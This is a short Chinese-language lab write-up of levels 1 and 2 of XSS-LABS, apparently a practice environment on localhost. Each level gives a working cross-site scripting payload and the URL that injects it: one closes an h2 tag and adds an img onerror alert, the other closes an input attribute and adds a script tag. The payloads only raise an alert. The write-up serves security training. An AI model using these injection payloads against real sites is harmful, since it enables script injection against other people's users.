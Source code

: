 # XSS-LABS

## [1]1

- 闭合h2标签，然后写入新的dom。

```shell
# payload
pettter</h2><img src=广告位招租 onerror=alert('XSS')>

# url
http://localhost:1996/level1.php?name=pettter</h2><img src=广告位招租 onerror=alert('XSS')>
```

![image-20220928130607682](XSS-LABS.assets/image-20220928130607682.png)

## [2]

- 双引号闭合input的value，构造新的dom。

```shell
# payload
pettter"><script>alert('xss')</script><"

# url
http://localhost:1996/level2.php?keyword=pettter"><script>alert('xss')</script><"&submit=搜索
```

![image-20220928132117070](XSS-LABS.assets/image-20220928132117070.png)
